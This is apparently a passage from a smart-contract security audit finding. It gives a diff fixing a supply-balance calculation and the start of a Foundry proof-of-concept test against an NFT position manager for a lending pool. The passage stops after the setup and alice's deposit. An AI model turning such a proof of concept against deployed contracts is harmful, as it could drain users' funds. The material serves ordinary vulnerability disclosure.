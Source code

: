 Due to a bug in `PositionBalanceConfiguration#getSupplyBalance` that we submitted in a different issue, fix the `getSupplyBalance` function before running the PoC

`core/pool/configuration/PositionBalanceConfiguration.sol`

```diff
library PositionBalanceConfiguration {
  function getSupplyBalance(DataTypes.PositionBalance storage self, uint256 index) public view returns (uint256 supply) {
-   uint256 increase = self.supplyShares.rayMul(index) - self.supplyShares.rayMul(self.lastSupplyLiquidtyIndex);
-   return self.supplyShares + increase;
+   return self.supplyShares.rayMul(index);
  }
}
```

Run command: `forge test --match-path test/PoC/PoC.t.sol -vv`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {DataTypes} from 'contracts/core/pool/configuration/DataTypes.sol';
import {INFTPositionManager} from 'contracts/interfaces/INFTPositionManager.sol';
import {console} from 'lib/forge-std/src/Test.sol';
import {DeployNFTPositionManager} from 'test/forge/core/positions/DeployNFTPositionManager.t.sol';


contract PoC is DeployNFTPositionManager {
    address alice = makeAddr('alice');
    address bob = makeAddr('bob');
    address cindy = makeAddr('cindy');

    uint256 tokenAmount = 1 ether;

    function setUp() public {
        _setUpPool();
        _setup();

        _mintAndApprove(alice, tokenA, tokenAmount, address(nftPositionManager));
        _mintAndApprove(bob, tokenA, tokenAmount + 1, address(nftPositionManager));

        _mintAndApprove(cindy, tokenA, tokenAmount, address(pool));
        _mintAndApprove(cindy, tokenB, tokenAmount, address(pool));
    }

    function testPoC() public {
        bytes32 assetHash = keccak256(abi.encode(address(pool), address(tokenA), false));
        uint256 aliceTokenId = 1;
        uint256 bobTokenId = 2;
        DataTypes.ExtraData memory dummyData = DataTypes.ExtraData(bytes(''), bytes(''));

        {
            vm.startPrank(alice);
            nftPositionManager.mint(address(pool));
            INFTPositionManager.AssetOperationParams memory params =
            INFTPositionManager.AssetOperationParams(address(tokenA), address(0), tokenAmount, aliceTokenId, dummyData);

            nftPositionManager.supply(params);
            vm.stopPrank();
        }

        {
            vm.startPrank(bob);
```